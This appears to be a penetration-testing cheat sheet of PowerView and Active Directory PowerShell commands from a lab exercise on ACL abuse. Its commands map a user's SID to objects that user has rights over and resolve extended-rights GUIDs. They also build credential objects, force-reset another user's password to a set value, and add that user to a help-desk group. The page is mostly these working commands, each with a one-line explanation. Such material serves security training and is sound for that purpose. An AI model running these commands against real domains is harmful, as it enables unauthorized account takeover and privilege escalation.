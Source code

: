 `Import-Module .\PowerView.ps1 $sid = Convert-NameToSid wley`

> Used to import PowerView and retrieve the `SID` of a specific user account (`wley`) from a Windows-based host.

`Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}`

> Used to find all Windows domain objects that the user has rights over by mapping the user's `SID` to the `SecurityIdentifier` property from a Windows-based host.

`$guid= "00299570-246d-11d0-a768-00aa006e0529" Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid | ?{$_.rightsGuid -eq $guid} | fl`

> Used to perform a reverse search & map to a `GUID` value from a Windows-based host.

`Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}`

> Used to discover a domain object's ACL by performing a search based on GUID's (`-ResolveGUIDs`) from a Windows-based host.

`Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt`

> Used to discover a group of user accounts in a target Windows domain and add the output to a text file (`ad_users.txt`) from a Windows-based host.

`foreach($line in [System.IO.File]::ReadLines("C:\Users\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}`

> A `foreach loop` used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(`ad_users.txt`) to the `Get-ADUser` cmdlet, then enumerates access rights of those users. Performed from a Windows-based host.

`$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)`

> Used to create a `PSCredential Object` from a Windows-based host.

`$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force`

> Used to create a `SecureString Object` from a Windows-based host.

`Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose`

> PowerView tool used to change the password of a specifc user (`damundsen`) on a target Windows domain from a Windows-based host.

`Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members`

> PowerView tool used view the members of a target security group (`Help Desk Level 1`) from a Windows-based host.

`Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose`

> PowerView tool used to add a specifc user (`damundsen`) to a specific security group (`Help Desk Level 1`) in a target Windows domain from a Windows-based host.

`Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName`
